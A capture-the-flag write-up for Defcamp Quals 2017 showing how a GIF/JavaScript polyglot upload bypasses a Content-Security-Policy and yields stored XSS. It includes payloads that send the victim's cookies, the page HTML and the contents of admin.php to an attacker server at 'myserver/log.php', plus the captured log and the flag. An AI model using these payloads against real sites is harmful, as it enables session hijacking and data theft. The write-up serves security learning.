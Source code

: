 ## Title: 
Defcamp Quals 2017 CTF DCTF LLC writeup

## Description: 
We are looking for your feedback about our new amazing company! :-) 

## Writeup: 
I was the first to solve this challenge and we got bonus points for this. When we visit the website we see a form asking for name, email, message and file.
The first thing I tried is to upload a php file to get a shell, but that didn't work. Looking at the response header we see: 
```
content-security-policy:default-src 'none'; img-src 'self' *.imgur.com *.ibb.co; script-src 'self'; connect-src 'self'; style-src 'self' fonts.googleapis.com fonts.gstatic.com 'unsafe-inline'; font-src 'self' fonts.gstatic.com  fonts.googleapis.com;
```
Noticing `script-src 'self'`, I immediately realized that this is XSS and we have to bypass CSP by uploading our JS through a valid image with size less than 500 bytes and the image seems to by validated with `getimagesize()`.

The best way to get a valid image with an XSS payload is through GIF images so here is what I tried: 
```javascript
GIF89a/*
  ? ,    /*
   ;*/=1;document.location='https://myserver/log.php?x='+encodeURIComponent(document.cookie+document.getElementsByTagName('html')[0].innerHTML+document.cookie);
```
Now we include the image through a script tag in the message field: `<script src=/__acf23acea0ea2f39205ab707c8ed19d3/x.gif></script>` and here is what I got in the logs file: 
```
IP: 45.76.95.55 - September 30, 2017, 12:41 pm
REFERRER: https://llc.dctf-quals-17.def.camp//bot.php?id=258
Array
(
    [x] => <head>
<script src="jquery.js.min"></script>
</head>
<body>


<a href="admin.php">Dashboard</a>
<div align="center"><h4>Message Sent. Here's the preview:</h4>
	<div>
	Name: test@test
	Email: test@test
	Message: test<script src="/__acf23acea0ea2f39205ab707c8ed19d3/x.gif"></script></div></div></body>
)
```

We didn't get the flag, so it's probably in the `admin.php` file, all we have to do is to get its contents through an ajax request (jquery already loaded). 
```javascript
GIF89a/*
  ? ,    /*
   ;*/=1;$.ajax('/admin.php').done(function(data){location='https://myserver/log.php?x='+encodeURIComponent(data);});
```
and we got the flag: `DCTF{808f50ca3f3182a30e76bb9fcc0fdcb7f75f4ce597f7abe1793e3942acf3ec9e}` 
